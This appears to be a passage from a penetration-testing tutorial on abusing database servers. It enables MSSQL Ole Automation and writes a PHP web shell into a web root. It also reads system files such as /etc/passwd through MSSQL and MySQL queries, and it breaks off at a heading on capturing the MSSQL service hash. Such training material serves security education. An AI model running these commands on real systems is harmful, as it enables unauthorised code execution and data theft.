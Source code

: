 To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

#### MSSQL - Enable Ole Automation Procedures

```cmd-session
sp_configure 'show advanced options', 1
```

```cmd-session
GO
```

```cmd-session
RECONFIGURE
```

```cmd-session
sp_configure 'Ole Automation Procedures', 1
```

```cmd-session
RECONFIGURE
```

#### MSSQL - Create a File

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Read Local Files

#### Read Local Files in MSSQL

```cmd-session
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```


```cmd-session
 GO
```


#### MySQL - Read Local Files in MySQL

```shell-session
select LOAD_FILE("/etc/passwd");
```

## Capture MSSQL Service Hash
